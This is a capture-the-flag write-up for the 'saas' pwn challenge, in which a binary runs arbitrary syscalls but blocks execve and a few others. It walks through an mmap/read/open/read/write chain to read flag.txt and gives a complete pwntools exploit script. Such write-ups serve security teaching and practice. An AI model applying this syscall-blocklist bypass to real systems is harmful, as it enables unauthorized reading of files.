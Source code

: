 # [pwn] saas writeup

> You've heard of software as a service, but have you heard of syscall as a service?

In this challenge we have a binary that let us make syscalls with arbitrary parameters; before starting to dig into the code we can make some checks with checksec and with strings.
Checksec's output is:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So this is not looking good, everything is enabled. Analyzing the binary with strings doesn't reveal anything really important, so the next step is to execute the binary.

```
$ ./saas 
Welcome to syscall-as-a-service!

Enter rax (decimal): 0
Enter rdi (decimal): 0
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x0
```
We are basically in a while true which lets us make syscalls with arbitrary parameters (and it shows us the return value), so we don't really care about the checksec's result. The first thing that came into my mind was to try and call execve, but the program will prevent us from calling some blacklisted syscalls (such as execve). The complete list of all the blocked syscall is: 0x3b, 0x39, 0x38, 0x3e, 0x65, 0xc8, 0x142.

## Solution

We cannot use execve, but we can still access many other syscalls. We can assume that this binary is in the same directory in which we have our flag.txt file, so (if this is true) we can try to *open* the file, *read* its contents and *write* them on stdout. In order to do that we can use 3 syscalls (obviously, open, read and write). But there is a little problem, to open a file we need its name, which is a string and which needs to be placed somewhere in the memory of the process, but since there's PIE we have no static addresses for r/w sections that we can possibly modify. After a bit of thinking, we can just allocate our own buffer using mmap, the address will be returned from the syscall, then we will write the string "flag.txt" (null terminated) on it and we can then open the file.

In C, what we want to do is as follow:

```
void* addr = mmap(0, 128, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
read(stdin, addr, 9);
int fd = open(addr, O_RDONLY, 0644);
read(fd, addr, 64);
write(stdout, addr, 64);
```

We have access to all this syscalls, we just need to convert our parameters to decimal:
```
PROT_READ|PROT_WRITE = 3
MAP_PRIVATE|MAP_ANONYMOUS = 4
0644 = 420 (0644 is octal)
stdin = 0
stdout = 1
```

## Code
At this point we just need a program that sends everything to the process' stdin, we just need to capture the retval of the mmap (for the address) and the retval of the open (for the file descriptor).
The program is (in python) as follow (in this directory you will find the .py file):
```
from pwn import *

#p = remote("jh2i.com", 50016)

p = gdb.debug("./saas", """
c
""")


#mmap
p.sendline("9")		#rax
p.sendline("0")		#rdi
p.sendline("128")	#rsi
p.sendline("3")		#rdx
p.sendline("34")	#r10
p.sendline("0")		#r9
p.sendline("-1")	#r8

p.recvuntil("Rax: 0x")
addr = str(p.recvuntil("\n")[:-1])[2:-1]
addr = str(int(addr,16))
print("Heap address ="+addr)

#read
p.sendline("0")		#rax
p.sendline("0")		#rdi
p.sendline(addr)	#rsi
p.sendline("9")		#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.sendline("flag.txt"+'\x00')
p.recvuntil("Rax: 0x")

#open
p.sendline("2")		#rax
p.sendline(addr)	#rdi
p.sendline("0")		#rsi
p.sendline("420")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8

p.recvuntil("Rax: 0x")
fd = str(p.recvuntil("\n")[:-1])[2:-1]
fd = str(int(fd,16))
print("File descriptor ="+fd)

#read
p.sendline("0")		#rax
p.sendline(fd)		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("Rax: 0x")

#write
p.sendline("1")		#rax
p.sendline("1")		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("r8 (decimal):")	#we can't read untill "Rax: 0x" because the flag is printed before that happen


p.interactive()
```
